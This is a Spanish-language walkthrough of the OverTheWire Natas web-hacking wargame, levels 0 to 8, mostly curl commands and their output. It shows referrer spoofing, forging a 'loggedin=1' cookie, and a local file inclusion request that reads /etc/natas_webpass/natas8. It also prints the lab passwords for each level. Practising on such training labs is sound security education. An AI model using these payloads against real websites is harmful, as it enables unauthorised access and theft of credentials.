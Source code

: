 
Natas son retos de pentesting web de "Over-The-Wire". Yo voy a realizar los ejercicios usando scripting en python y bash
Para resolver la pagina hay que encontrar la contraseña para autenticarse en el nivel siguiente con el usuario llamado igual que en nivel actual.

## Natas0

(Natas0)[http://natas0.natas.labs.overthewire.org]
*Vulnerabilidad: credenciales en el codigo fuente*

El nivel inicial, esconde la credencial en el código fuente. (clic derecho)
Con scripting se puede ver muy facilmente
```python
import requests
url = "http://natas0.natas.labs.overthewire.org/"
req = requests.get(url, auth=("natas0","natas0"), verify=False)
print(req.text)
```
Desde consola tambien es pan comido
```console
[cucuxii@parrot]~[natas0]:$ curl -s "http://natas0.natas.labs.overthewire.org" -u natas0:natas0
... <!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->
```
## Natas1
(Natas1)[http://natas1.natas.labs.overthewire.org]
*Vulnerabilidad: credenciales en el codigo fuente*
*Restriccion: click derecho en el navegador*

El segundo nivel si visitas la web te dice que el click derecho esta prohibido. Nos autenticamos con la contraseña de antes.
Aunque se desactive dicho click en el navegador, con curl o python se puede acceder igualmente al codigo fuente
```console
[cucuxii@parrot]~[natas0]:$ curl -s "http://natas1.natas.labs.overthewire.org" -u natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto
... <!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->
```

## Natas2

(Natas2)[http://natas2.natas.labs.overthewire.org]
*Vulnerabilidad: directory liting*

En la web aparentemente no hay nada y en el codigo fuente de natas2 no sale la contraseña, pero si sale un "img src" o sea una ruta de donde saca una foto.
```console
[cucuxii@parrot]~[natas0]:$ curl -s "http://natas2.natas.labs.overthewire.org" -u natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi
... <img src="files/pixel.png">
```
Si ponemos en el nevegador la ruta ```"http://natas2.natas.labs.overthewire.org/files"``` tenemos un directory listing, es decir una lista de todos los 
elementos que estan bajo dicha ruta, (entre ellas la foto de pixel.png) pero tambien un archivo de texto "users.txt" con la contraseña.

## Natas3

(Natas3)[http://natas3.natas.labs.overthewire.org]
*Vulnerabilidad: rutas criticas en el robots.txt*

Otro "no hay nada en esta web" en el navegador
```console
[cucuxii@parrot]~[natas0]:$ curl -s "http://natas3.natas.labs.overthewire.org" -u natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 
<!-- No more information leaks!! Not even Google will find it this time... -->
```
Nos dice que no va a haber mas crendeciales filtradas, y que ni siquiera Google nos encontrará. Eso ultimo es una pista hacia la ruta "robots.txt"
la cual evita que Google indexe/encuentre ciertas rutas sensibles.
```console
[cucuxii@parrot]~[natas0]:$ curl -s "http://natas3.natas.labs.overthewire.org/robots.txt" -u natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 
User-agent: *
Disallow: /s3cr3t/
```
Dicho "/s3cr3t" nos lleva a otro users.txt con las credenciales

## Natas4

(Natas4)[http://natas4.natas.labs.overthewire.org]
*Restriccion: referrer limitado*

Este nivel nos dice que solo acepta a gente que venga desde ```http://natas5.natas.labs.overthewire.org/```, es decir que desde esa página hayan pinchado en un link para venir a la actual. Esto se llama referrer. Con curl se puede esècificar dicho referrer con "-e"
```console
[cucuxii@parrot]~[natas0]:$ curl -s "http://natas4.natas.labs.overthewire.org" -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ \
> -e http://natas5.natas.labs.overthewire.org/
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```
## Natas5

(Natas5)[http://natas5.natas.labs.overthewire.org]
*Vulnerabilidad: cookie forge o creacion de cookie*

Aqui te dice que simplemente no estas logueado, cuando se habla de loguins hay que pensar en cookies, ya que estas son las que arrastran dicho loguin.
```console
[cucuxii@parrot]~[natas0]:$ curl -s "http://natas5.natas.labs.overthewire.org" -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq -I
Set-Cookie: loggedin=0
```
Hay una cookie llamada logguedin que se iguala a 0 por defecto, haciendo que salga el mensaje de que no estas logueado. La cookie se puede colocar 
con curl

```console
[cucuxii@parrot]~[natas0]:$ curl -s "http://natas5.natas.labs.overthewire.org" -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq  --cookie "loggedin=1"
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1</div>
```
## Natas6

(Natas6)[http://natas6.natas.labs.overthewire.org]
*Vulnerabilidad: rutas en el codigo fuente*

Cuando visitamos la pagina hay un formulario para meter un "secreto" y con el ver la contraseña. Tambien hay un enlace a "index-source.html"
Aqui hay un pequeño php que nos dice que hay que meter un valor "secret" por POST, tambien una ruta "include 'includes/secret.inc';"
Si la isitamos damos con tal secreto
```console
[cucuxii@parrot]~[natas0]:$ curl -s "http://natas6.natas.labs.overthewire.org/includes/secret.inc" -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
$secret = "FOEIUWGHFEEUHOFUOIU";
[cucuxii@parrot]~[natas0]:$ curl -s "http://natas6.natas.labs.overthewire.org" -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 -X POST \
> -d "secret=FOEIUWGHFEEUHOFUOIU&submit="
Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```

## Natas7

(Natas7)[http://natas7.natas.labs.overthewire.org]
*Vulnerabilidad: LFI (local file inclusion)*

Cuando visitamos la web, en el codigo fuente se filtra otra ruta, pero no se puede acceder poniendola en la URL sin más. Aun asi en la web hay dos
enlaces. Si clicamos en uno sale en la url un "index.php=home o index.php=about", que tambien se ve claramanete desde el codigo fuente.

```console
[cucuxii@parrot]~[natas0]:$ curl -s "http://natas7.natas.labs.overthewire.org" -u natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
[cucuxii@parrot]~[natas0]:$ curl -s "http://natas7.natas.labs.overthewire.org/etc/natas_webpass/natas8" -u natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```
Dicho index.php parece script que te redirige al sitio que pone tras el parametro "page". En este caso "home" y "about" pero la vulnerabilidad
reside en que podemos poner nosotros el parametro que nos de la gana y nos lleve alli. Nos interesa la ruta que se nos ha filtrado antes.

```console
[cucuxii@parrot]~[natas0]:$ curl -s "http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8" \ 
-u natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
```

## Natas8

(Natas8)[http://natas8.natas.labs.overthewire.org]
*Vulnerabilidad: algoritmo de encriptado filrado*

Natas 8 nos pide otra vez un secreto y nos da la ruta del "index-source.html". 

```console
[cucuxii@parrot]~[natas0]:$ curl -s "http://natas8.natas.labs.overthewire.org/index-source.html" -u natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe | html2text
$encodedSecret = "3d3d516343746d4d6d6c315669563362";
function encodeSecret($secret) { return bin2hex(strrev(base64_encode($secret))); }
```
O sea un hash y como se ha fabricado, un codigo al que le tendremos que dar la vuelta.

```console
[cucuxii@parrot]~[natas0]:$ php --interactive
php > print(hex2bin("3d3d516343746d4d6d6c315669563362"));   # Si ha hecho un bin2hex supongo que existira un hex2bin
==QcCtmMml1ViV3b
php > print(strrev("==QcCtmMml1ViV3b"));   # Esta funcion simplemente le da la vuelta a la string
b3ViV1lmMmtCcQ==
php > print(base64_decode("b3ViV1lmMmtCcQ=="));
oubWYf2kBq   # Se supone que este es el secreto
```

```console
[cucuxii@parrot]~[natas0]:$ curl -s "http://natas8.natas.labs.overthewire.org" -u natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe \
> -X POST -d "secret=oubWYf2kBq&submit="
Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```
Mira pues si era, que bien :3


